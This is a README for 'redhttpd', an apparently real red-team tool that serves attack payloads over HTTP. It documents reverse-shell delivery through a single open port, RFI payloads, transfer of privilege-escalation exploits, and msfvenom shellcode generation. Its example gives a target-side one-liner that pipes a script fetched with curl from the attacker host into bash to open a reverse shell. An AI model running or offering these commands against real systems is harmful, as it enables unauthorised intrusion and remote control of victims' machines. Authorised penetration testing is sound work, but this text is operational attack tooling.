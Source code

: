 # redhttpd

Forget "python -m SimpleHTTPServer". redhttpd implements - on top of SimpleHTTPServer ;) - a set of useful features for Red Teaming and Penetration Testing. This tool was designed to run on the "attacker side" and make his/her life easier in recurring tasks such as:
	
	1. getting a reverse shell in restricted environments - such as when there's only 1
	    outbound port open on the target host - with a simple target side one-liner
	    
	2. exploiting Remote File Inclusion (RFI) vulnerabilities
	
	3. transferring favorite/most used exploits and exploits' suggesters for privilege escalation
	
	4. creating and transferring msf shellcode
	
	5. transferring all kind of files to the target host.

# Usage

```
usage: redhttpd.py [-h] [-a BINDING_ADDRESS] [-p PORT] [-d ROOT_DIRECTORY]
                   (-y [{sh,py,ps1}] | -r [{php,asp,aspx}] | -x [{suggesters,linux,windows,mac}] | -m [MSF_SHELL] | -f FILES [FILES ...])
                   [-e [EXTENSION]] [-c [{wget,curl,powershell}]] [-v {0,1,2}]
                   [--LHOST LHOST] [--LPORT LPORT] [--no-netcat]

RedTeam httpd.

optional arguments:
  -h, --help            show this help message and exit
  -a BINDING_ADDRESS, --binding-address BINDING_ADDRESS
                        Local address where to bind.
  -p PORT, --port PORT  Listening port.
  -d ROOT_DIRECTORY, --root-directory ROOT_DIRECTORY
                        Root directory.
  -y [{sh,py,ps1}], --yolo [{sh,py,ps1}]
                        YOLO mode. Copy custom payloads from the corresponding 'yolo/' directory to root directory. Use it to serve one request and shutdown. Useful when chained with netcat listening on the same port. Warning: With this option on, -p/--port value will always be used even if LPORT is set. E.g.: ./redhttpd.py -p 53 -y
  -r [{php,asp,aspx}], --rfi [{php,asp,aspx}]
                        RFI mode. Copy custom RFI payload from corresponding 'rfi/' directory to root directory. Default: php. Use with -e/--extension argument to remove or change file extension.
  -x [{suggesters,linux,windows,mac}], --exploits [{suggesters,linux,windows,mac}]
                        Exploits mode. Copy custom exploits from the corresponding 'exploits/' directory to root directory. The default value is: linux.
  -m [MSF_SHELL], --msf-shell [MSF_SHELL]
                        msfvenom mode. Use msfvenom to create a shellcode and serve it. Use it just like msfvenom without LHOST, LPORT and -o parameters. E.g.: ./redhttpd.py -m " -p linux/x86/shell_reverse_tcp -f elf" --LHOST 192.168.0.1 --LPORT 53. (msfvenom required)
  -f FILES [FILES ...], --files FILES [FILES ...]
                        Custom files mode. Simply copy desired files to root directory.
  -e [EXTENSION], --extension [EXTENSION]
                        Change files extension. Only useful when used with -r/--rfi.
  -c [{wget,curl,powershell}], --clipboard [{wget,curl,powershell}]
                        Copy wget/curl/powershell + URL string to clipboard. Default: wget. (xclip required)
  -v {0,1,2}, --verbosity {0,1,2}
                        Set verbosity level.
  --LHOST LHOST         Use to substitute host placeholder.
  --LPORT LPORT         Use to substitute port placeholder.
  --no-netcat           Disables default netcat used in YOLO mode. By default, in YOLO mode, a netcat listerner starts after httpd handler is closed, on the same port redhttpd was running. (netcat required)
```

# Examples

## Simple example using YOLO mode to get a reverse shell through port 53

Server-side

```
python redhttpd.py -p 53 -y --LHOST=<REDHTTPD_ADDRESS>
```

Target-side (using bash)

```
curl -s <REDHTTPD_ADDRESS>:53/sh.txt | bash
```

